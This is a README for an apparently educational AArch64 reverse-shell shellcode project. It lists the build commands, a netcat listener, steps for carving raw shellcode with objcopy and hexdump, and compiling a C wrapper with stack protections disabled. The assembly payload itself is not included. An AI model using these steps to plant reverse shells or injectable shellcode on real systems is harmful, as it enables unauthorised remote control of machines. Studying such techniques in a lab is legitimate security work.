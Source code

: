 # ARM-Shellcode
ARM AARCH64 Reverse Shell.

# Compiling
## Linux/AARCH64 as a guest OS on a MAC or other ARM-based device
`as arm-revshell.s -o arm-revshell.o && ld arm-revshell.o -o arm-revshell`

### Begin a Netcat Listener
`nc -lnvp 1337`

### Execute

Then, run `./arm-revshell` to execute.

## x86-64 host OS, but you want to run/compile for AARCH64
`aarch-linux-gnu-as arm-revshell.s -o arm-revshell.o && aarch-linux-gnu-ld arm-revshell.o -o arm-revshell`

### Begin a Netcat Listener
`nc -lnvp 1337`

### Execute

Then, run `qemu-aarch64 ./arm-revshell` to execute.`

## Utilizing the Shellcode "Wrapper"
This is to show you that we can achieve the same cyber result, just in a different executable format. It also goes to show how easily it is to "fit" shellcode into places.

First, we must use `objcopy` to save the binary object to a `.bin` file so we can convert it into an easily copiable format.
`objcopy -O binary arm-revshell arm-revshell.bin`

Then, we need to utilize `hexdump` to "carve" out the shellcode from the binary object.
`hexdump -v -e '"\\""x" 1/1 "%02x" ""' arm-revshell > shellcode.txt`

Lastly, we need to copy the contents of `shellcode.txt` into the `shellcode[]` buffer, within the `shellcode-exec.c` file.

### Compile the "Wrapper"
`gcc shellcode-exec.c -o shellcode-exec -z execstack -fno-stack-protector`

## Reverse Shell Time!!!
We can now easily call our shellcode within a C program.

Start a Netcat Listener:
`nc -lnvp 1337`

Execute the program:
`./shellcode-exec`

**CONGRATS, SHELLCODE EXECUTED! ENJOY!**

